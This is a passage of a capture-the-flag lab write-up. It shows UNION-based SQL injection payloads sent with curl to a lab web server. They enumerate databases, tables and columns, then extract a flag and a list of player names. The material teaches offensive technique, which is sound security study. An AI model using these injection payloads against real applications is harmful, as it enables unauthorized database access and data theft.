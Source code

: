 ```

oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select user();-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
uhc@localhost

```

#### DB Enumeration

There are five databases on the host, but really only `november` is interesting:

```

oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select group_concat(SCHEMA_NAME) from INFORMATION_SCHEMA.schemata;-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
mysql,information_schema,performance_schema,sys,november

```

The `november` DB has two tables:

```

oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select group_concat(table_name) from INFORMATION_SCHEMA.tables where table_schema='november';-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
flag,players

```

Interestingly, each table only has one column:

```

oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select group_concat(table_name, ':', column_name) from INFORMATION_SCHEMA.columns where table_schema='november';-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
flag:one,players:player

```

I can grab the flag:

```

oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select group_concat(one) from flag;-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
UHC{F1rst_5tep_2_Qualify}

```

And also the list of users:

```

oxdf@parrot$ curl -s -X POST http://10.10.11.128 -d "player=' union select group_concat(player) from players;-- -" | sed 's/Sorry, //' | sed 's/ you are not eligible due to already qualifying.//'; echo
ippsec,celesian,big0us,luska,tinyboy

```
